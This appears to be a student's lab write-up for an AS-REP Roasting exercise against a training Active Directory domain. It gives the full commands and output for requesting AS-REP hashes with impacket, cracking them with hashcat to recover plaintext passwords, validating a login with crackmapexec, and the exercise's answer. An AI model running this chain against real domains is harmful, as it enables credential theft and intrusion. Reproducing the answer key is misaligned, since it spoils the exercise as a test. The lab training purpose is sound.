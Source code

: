 Topics: AS-REP Roasting
Questions 2
Once VM Group 2 is started, the domain corp.com has been slightly modified. Use the techniques from this section to obtain another plaintext password by performing AS-REP Roasting and enter it as answer to this exercise.
# Answer
Summerland1

sudo impacket-GetNPUsers -dc-ip 192.168.163.70  -request -outputfile hashes.asreproast corp.com/pete
...
[*] Cannot authenticate pete, getting its TGT
[-] User pete doesn't have UF_DONT_REQUIRE_PREAUTH set
...

sudo impacket-GetNPUsers -dc-ip 192.168.163.70  -request -outputfile hashes.asreproast corp.com/jeff
...
dave  CN=Development Department,DC=corp,DC=com  2022-09-07 09:54:57.521205  2024-05-19 06:31:28.735065  0x410200 
jen   CN=Management Department,DC=corp,DC=com   2024-05-19 06:29:22.000677  2024-01-08 01:26:03.035484  0x410200 

$krb5asrep$23$dave@CORP.COM:c3bc5f9435d21cda1519c40aafc6387c$c2b035acadccae876a4aecb56734c7c4f923831c4707e5b1db1f77296e84e80f85ee6fece612d17b7368401b7af941364ab626d16651d029060e4d7b3fbe0fc93ec250bac9a119323e9bcef0ea7ad45676dc75f466ce424d5f3c1472a890f6d9f6de9d9ebac4aa6bb344cb95d187e6b72debb6a170cb95da9abe0b9b320461b7aa700ec7602943765b14cdafd730b0ca1c8c74d4156410823acddf7dc40f57d26b140b88533e61db8078dc297aefb61c39d82e428807b34887f4797d45ceac3ff3293aee6f964e5bed0a8033c45ba7cf8f44957a7d7578431a2b5bbda841346f84c960e6

$krb5asrep$23$jen@CORP.COM:4b501b39bacd165a6d7bdd6ceaa959d3$299691ef2dea5aa35109b5a8cdf64d30a5aaf961255248dc8c4a51b47f2d3ad070a8d12ccbfa8ef28d63213f6edc8d0b9a52f17edc04a96e00c90582fc3ea00e058cfcffdb4e8034714d6806bc35c0f44b82cfc6889ea28eb756b4cf42d08e4aa3d772410ba85aee3fd78f7e1e479d3015d10871447be7ad61c1ec3ec947db4af0bc72886287648c381073e8408017af50911afd43da35e137e2a63226bcffc6006eed1ebd30d15dab6b9b34090a80334f28af12bb9d23af9654a83402f30acca1bec944625c2a57a2a3a5811ba7e98486342b9e7bb15ea6fa56ead98696bdae13378df6
...

# dave user
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
Flowers1                                                
Session..........: hashcat
Status...........: Cracked
...

# jen user
...
Summerland1                                               
Session..........: hashcat
Status...........: Cracked
...

sudo crackmapexec smb 192.168.163.75 -u dave -p 'Flowers1' -d corp.com
SMB         192.168.163.75  445    CLIENT75         [+] corp.com\dave:Flowers1 (Pwn3d!)
